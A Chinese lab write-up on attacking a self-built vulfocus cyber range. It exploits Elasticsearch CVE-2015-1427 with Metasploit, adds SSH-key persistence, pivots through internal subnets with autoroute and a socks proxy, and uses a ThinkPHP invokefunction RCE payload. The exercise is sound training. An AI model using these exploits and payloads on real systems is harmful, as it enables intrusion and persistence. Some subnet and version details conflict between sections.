# 网络靶场的二次搭建和强化学习
## 实验环境
- 主机：
    - kali victim:192.168.70.4
    - kali attacker:192.168.70.7
-  环境搭建：vulfocus
    - 网卡：
      - 核心网：192.169.85.0/24
      - 三层王：192.169.76.0/24
      - DMZ: 192.170.84.0/24
      - 迷惑网卡: 192.168.100.0/24
    - 漏洞容器
      - vulfocus/elasticsearch-cve_2015_1427:latest
      - vulfocus/thinkphp-cve_2018_1002015:latest
      - vulfocus/redis-cve_2022_0543:latest
      - vulfocus/jenkins-cve_2018_1000861:latest
      - c4pr1c3/vulshare_nginx-php-flag:latest
## 漏洞简介
1. **elasticsearch-cve_2015_1427**
- Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。
- 2014年爆出过一个远程代码执行漏洞(CVE-2014-3120),该漏洞产生原因是由于ElasticSearch使用的脚本引擎支持脚本代码MVEL作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意java代码。

- 后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行。

2. **thinkphp-cve_2018_1002015**
- ThinkPHP是一个轻量级的中型框架，是从Java的Struts结构移植过来的中文PHP开发框架。它使用面向对象的开发结构和MVC模式，并且模拟实现了Struts的标签库，各方面都比较人性化，熟悉J2EE的开发人员相对比较容易上手，适合php框架初学者。
ThinkPHP的宗旨是简化开发、提高效率、易于扩展，其在对数据库的支持方面已经包括MySQL、MSSQL、Sqlite、PgSQL、
Oracle，以及PDO的支持。ThinkPHP有着丰富的文档和示例，框架的兼容性较强，但是其功能有限，因此更适合用于中小项目的开发。

3. **redis-cve_2022_0543**
- Redis是一种非常广泛使用的缓存服务，但它也被用作消息代理。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。Redis 嵌入了 Lua 编程语言作为其脚本引擎，可通过eval命令使用。Lua 引擎应该是沙盒化的，即客户端可以与 Lua 中的 Redis API 交互，但不能在运行 Redis 的机器上执行任意代码。
- CVE-2022-0543漏洞影响的版本只限于Debian 和 Debian 派生的 Linux 发行版（如Ubuntu）上的 Redis 服务。
安全研究人员发现在 Debian 上，Lua 由 Redis 动态加载，且在 Lua 解释器本身初始化时，module和require以及package的Lua 变量存在于上游Lua 的全局环境中，而不是不存在于 Redis 的 Lua 上，并且前两个全局变量在上个版本中被清除修复了，而package并没有清楚，所以导致redis可以加载上游的Lua全局变量package来逃逸沙箱。

4. **jenkins-cve_2018_1000861**
- Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

- 通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


- att&ck Navigator




## 搭建环境
1. 在kali victim中启用上次实验所启用的vulfocus并拉取这个漏洞的镜像
```bash
docker pull vulfocus/redis-cve_2022_0543:latest
docker pull vulfocus/elasticsearch-cve_2015_1427:latest
docker pull vulfocus/thinkphp-cve_2018_1002015:latest
docker pull vulfocus/jenkins-cve_2019_1003000:latest
```
- 并在vulfocus的页面中导入本地镜像


2. 在环境编排处搭建环境


3. 编排时的心路历程
**每一层的漏洞计划都可以远程操作实现漏洞利用，在迷惑网卡内网中，我使用了thinkphp漏洞，在同一层中，我使用了redis漏洞去模拟一个真实的双网卡双容器的环境，而redis中也只有一个容器是可以联通下一层的，也就是说攻击者需要更加细致的搜索和攻击才能访问到真实的内网，而且迷惑网卡开放的端口是80，更加难以排查，在信息收集阶段增大了攻击者的难度**
4. 将这个环境编排后启用**场景**


## 入口靶标和验证与攻破
1. 我们访问到了一个elasticsearch的页面,通过这个页面我们可以查看到一些敏感信息，比如时间，版本，引擎



2. 这几个敏感信息我们可以通过一些漏洞进行利用，查阅后发现了上述的**cve-2015-1427**漏洞
3. 对这个镜像进行漏洞利用性检测
- 首先根据信息，在确定连通性的情况下，可以创建一个```数学公式```的负荷，这是一个groovy脚本,如果输出了我们验证的数学公式，则表示漏洞存在
```bash
curl -XPOST “http://192.168.70.4:<port>/_search?pretty" -d '{
"script_fiedls":{
    "test":{
        "script":"2+3"
        }
    }
}'
```


**我们发现是超时了，并没有验证成功漏洞的存在性，但是也没有显示```groovy disabled```,所以并不能确定这个漏洞是否存在**

根据和```安靖```老师的探讨，我们发现只要输入一个攻击负荷，这个漏洞很快就验证成功了
```bash
curl -X POST "http://<ip>:<port>/website/blog/" -d '{"name":"test"}' #攻击负荷
```

**原因分析**:
之前验证的逻辑是
发送测试脚本：S_test = "2+3"

检查响应：若 R 包含 "test": [5] → 漏洞存在

逻辑表达式：f(S_test) == R_expected

最初验证失败的原因是：空数据库导致查询结果集为空，使脚本执行被跳过（hits.total=0 → 不执行 script_fields）

而这条脚本完成了关键步骤：

graph LR
A[创建索引/文档] --> B[构建有效查询环境]
B --> C[激活脚本执行]

**具体原理**：
创建存储结构：
```/website/blog/``` 创建了：
索引(Index): ```website```
类型(Type): ```blog```
```{"name":"test"}``` 插入一条文档(Document)
在文档添加完后，自然的会生成索引。
```
满足存在量词 ∃
通过创建文档，使 ∃ Doc 成立

打破执行约束
空数据库时：∀ Doc, Doc ∉ Database ⇒ Search(Doc) = ∅
插入后：∃ Doc, Doc ∈ Database ⇒ Search(Doc) ≠ ∅
```

4. **在验证成功后，开始进行漏洞利用**
- 使用工具：metasploit
- 漏洞利用步骤：
    1. 初始化metasploit并启用   
    ```bash
    sudo msfdb init
    msfconsole
    db_status # 查看数据库状态
    workspace -a anjing #创建工作空间
    ```
    2. 开始进行漏洞利用
    ```bash
    #信息收集
    db_nmap -p <port> 192.168.70.4 -n -A
    # 查看可用的exploit
    search elasticsearch type:exploit
    # 2015年的漏洞
    use 1
    ```
    
    
    ```ruby
    #  设置参数
    show options
    set RHOSTS 192.168.70.4
    set RPORT <映射端口，每次不一样>
    set LHOST 192.168.70.7
    show payloads
    set payload <random>
    #  利用漏洞
    exploit
    ```
    
    
    3. 拿到shell之后就可以进行flag的获取
    ```shell
    ls /tmp
    ```
    获取后提交到场景中就可以拿分了
    
## 基于第一层靶标发现内网容器与靶标
1. 入口靶标的打击在实验中拿到的shell是不一定的，所以我们每次在metasploit中对需不需要进行升级shell有一定的取舍
```ruby
# 如果拿到的是普通shell
sessions -u 1 #升级拿到的shell
# 升级后的shell是meterpreter,在这个实验中可能会退出，所以可以进行持久化处理
metepreter> run post/linux/manage/sshkey_persistence
```
2. 对meterpreter容器进行网络扫描和信息收集
```ruby
meterpreter> route
meterpreter> ipconfig
```



**可以看到除了自身的ip之外，还有另外两个网卡和路由存在，所以我们可以判断这个网络是存在另外两个内网的**
```ruby
# 设置路由代理
meterpreter> run autoroute -s 192.168.100.0/24
meterpreter> run  autoroute -s 192.168.85.0/24
meterpreter> run autoroute -p # 查看路由
meterpreter> background
# 对特定的网段进行端口扫描
msf6> use  auxiliary/scanner/portscan/tcp
msf6> set RHOSTS 192.168.100.2-254
msf6> set PORTS 80 #通常的http端口
msf6> set THREADS 10
msf6> run
msf6> hosts #查看存活主机
```


**确定了主机的存活和端口的开放，接下来就是进行漏洞利用了**

3. **socks代理**
先测试网络联通性是否正常
```shell
# 在刚刚拿到的第一个终端中
meterpreter > shell
curl  http://192.168.100.2
curl  http://192.168.100.3
```

测试网络联通性正常，接下来进行socks代理
```ruby 
msf6> search socks
msf6> use auxiliary/server/socks_proxy
msf6> run
```
因为在上次的实验中,已经将socks5的规则写入终端了，所以这里不再重复
```bash
sudo lsof -i:1080 #  查看1080端口
proxy chain curl -I 192.168.100.2 # 测试socks代理
```


**这里收集到了极其重要的信息，```5.1.30版本的thinkphp```漏洞,使用的php/7.2.12版本**
可以直接搜索到这个漏洞的[漏洞报告](https://paper.seebug.org/760/)

4. **漏洞利用**
首先直接在metasploit中搜索thinkphp漏洞
```ruby
search thinkphp
use exploit/unix/webapp/thinkphp_rce
show payloads
set payload <>
set RHOSTS 192.168.100.2
set RPORT 80
```

但是在利用时，一直报错为无法解析thinkphp的版本，因此我很难利用这个exploit直接使用漏洞,而且从上帝视角中,我知道这个是迷惑内网，因此我只需要拿到我的flag就可以，因此我直接使用一个现成的poc利用了漏洞

**将poc在浏览器中访问输入:**
```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```

用相同的方式访问拿到另一个容器的flag
